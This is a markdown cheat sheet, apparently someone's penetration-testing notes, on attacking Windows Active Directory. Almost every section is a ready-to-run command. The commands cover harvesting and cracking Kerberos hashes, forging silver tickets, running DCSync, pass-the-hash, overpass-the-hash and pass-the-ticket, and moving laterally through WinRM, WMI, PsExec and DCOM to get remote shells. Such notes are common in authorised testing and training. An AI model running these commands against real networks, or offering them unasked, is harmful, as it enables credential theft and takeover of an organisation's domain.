 # Active Directory

## Compromising Credentials

### AS-REP Roasting
If for some ridiculous reason the `Do not require Kerberos preauthentication` user setting is enabled, the door is open for querying for and receiving the users encrypted credentials, which we can then crack offline:
```bash
impacket-GetNPUsers -dc-ip 192.168.12.34  -request -outputfile hashes.asreproast our.domain/chumpasaurusUser
```
Then crack with Hashcat:
```bash
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
If we'd like to do the same thing but from Windows then:
```powershell
.\Rubeus.exe asreproast /nowrap
```
Copy the output to Kali and save it in a file called `hashes.asreproast`, and the command above will work just as well.

### Kerberoasting
For classic Kerberoasting from Windows:
```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
Same deal with copying the hashes back over to Kali:
```bash
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
For the same but from Kali:
```bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.12.34 our.domain/chumpasaurusUser
```

### Silver Tickets
If attempting to forge a silver ticket to hit a website, the following will work nicely from within Mimikatz:
```
mimikatz # kerberos::golden /sid:<current user SID> /domain:our.domain /ptt /target:target-site.our.domain /service:http /rc4:<NTLM hash of user whose privilege we want to assume> /user:chumpasaurusUser
```

### DC Sync
We can impersonate a Domain Controller and prompt others to perform a sync operation. This can allow us to retrieve the NTLM hash of any user. Via Mimikatz:
```
mimikatz # lsadump::dcsync /user:corp\Administrator
```
and via Linux:
```bash
impacket-secretsdump -just-dc-user Administrator corp.com/powerfulUser:"rubbishPassw0rd\!"@192.168.12.34
```

## Moving Laterally

### Powershell Creds Block
For both WinRM and WMI make use of the following to generate a `$credential` variable:
```powershell
$username = 'chump';
$password = 'chumpsDogsName123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
```


### WinRM
Assuming you have credentials, the following will give us a Powershell session 
```powershell
New-PSSession -ComputerName 192.168.12.34 -Credential $credential
Enter-PSsession 1
```

### WMI
If for some reason we cannot use WinRM, or if we'd rather have a reverse shell from Kali, then worth trying WMI as an alternative:
```powershell
$Options = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName 192.168.12.34 -Credential $credential -SessionOption $Options
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```
The `$Command` variable used above that isn't explicitly defined anywhere should be a base64 encoded reverse shell written in Powershell as detailed in `notes/shells.md`

### PsExec
This will need to be imported onto the machine, but once there very convenient. Comes as part of the SysInternals suite.
```powershell
./PsExec64.exe -i  \\TARGE-MACHINE -u corp\chump -p chumpsPassword cmd
```

### Pass the Hash - SMB Shares
Assuming we have already laid our hands on an NTLM hash courtesy of `mimikatz`, the following command will give us access to an SMB Share with those credentials:
```bash
smbclient \\\\<IP address or computer name>\\<share name> -U <user name> --pw-nt-hash <user hash>
```
for example:
```bash
smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
```

### Pass the Hash - Reverse Shell
We can authenticate to just about anything if the user whose hash we've obtained exists on the target machine, but as usual the holy grail is to just obtain a reverse shell:
```bash
impacket-psexec -hashes 00000000000000000000000000000000:<user hash> <user name>@<target IP>
```

### Pass the Hash - CMD Shell
Now with the Impacket suite:
```powershell
/usr/bin/impacket-wmiexec -hashes :7a38310ea6f0027ee955abed1762964b Administrator@192.168.12.34
```

### Pass the Hash - Mimikatz
As if we needed another way of doing this, but here it is again with Mimikatz:
```
mimikatz # sekurlsa::pth /user:chump /domain:corp.com /ntlm:7a38310ea6f0027ee955abed1762964b /run:powershell
```

### Overpass the Hash
Instead of merely leveraging an NTLM hash to authenticate as a user, we could use it to obtain a Ticket Granting Ticket (TGT). This will allow us to make use of services that authenticate via Kerberos, and do not accept NTLM hashes. Namely the SysInternals PsExec.exe program.

First auth against a network share to make sure there is a TGT cached on the machine:
```powershell
net use \\machine07
```
Verify a TGT has been cached:
```powershell
klist
```
Now leverage to obtain a shell on a machine that we otherwise might not have been able to:
```powershell
.\PsExec.exe \\files04 cmd
```

### Pass the Ticket
Dump all TGT and TGSs present on the machine we have an admin presence on:
```
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```
Load the ticket we like the look of into our current session:
```
mimikatz # kerberos::ptt name-of-ticket-we-liked.kirbi
```
This should give our current session any privilege that that ticket grants that we didn't have already. Eg. the ability to view previously restricted files in a network fileshare.

### DCOM
To create a DCOM object:
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.12.34"))
```
To leverage it to execute commands:
```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"<our payload>","7")
```
For the payload section, once again we should make use of a base64 encoded Powershell reverse shell as detailed in `notes/shells.md`.
